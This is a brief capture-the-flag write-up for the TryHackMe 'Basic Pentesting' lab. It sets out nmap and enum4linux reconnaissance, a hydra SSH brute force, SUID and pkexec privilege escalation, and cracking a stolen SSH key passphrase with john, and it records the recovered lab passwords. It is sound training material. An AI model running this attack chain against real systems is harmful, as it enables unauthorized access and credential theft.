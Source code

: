 ```yaml
---
date:
  created: 2023-12-19
  updated: 2023-12-19
description: THM-BasicPentesting(easy) Writeup
tags:
  - enum4linux
  - hydra
  - linpeas
  - gtfobins
  - ssh-key
  - john
comments: true
---
```


# Basic Pentesting

## Recon
- nmap scanning
nmap -p- --min-rate 5000 $IP
nmap -sV -sC -p 22,80,139,445,8009,8080 -oN nmap/tcpscan.txt $IP

## Enumeration
gobuster dir -u http://$IP -w /opt/tools/SecLists/Discovery/Web-Content/big.txt
enum4linux -a $IP | tee enum4linux.txt

## Exploitation
`hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$IP`
username = jan password = armando

## Privesc
`python3 -m http.server 80`
transfer linpeas.sh
sudo -l
`find / -user root -perm /4000 2>/dev/null`
gtfobins pkexec
then tengok balik linpeas ada /home/kay/.ssh/id_rsa
cat file then try login but it ask for passphrase
ssh2john id_rsa > kay.txt 
`john kay.txt --wordlist=/usr/share/wordlists/rockyou.txt`
john --show kay.txt
password = beeswax

login and cat pass.bak